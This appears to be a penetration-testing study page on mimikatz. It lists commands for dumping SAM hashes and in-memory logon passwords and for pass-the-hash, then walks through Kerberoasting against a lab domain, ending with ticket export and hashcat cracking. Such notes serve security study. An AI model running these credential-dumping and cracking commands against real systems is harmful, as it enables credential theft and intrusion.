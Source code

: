 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from: https://github.com/ParrotSec/mimikatz.git

## Basic usage


```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 

```

## An Example


**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL01.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
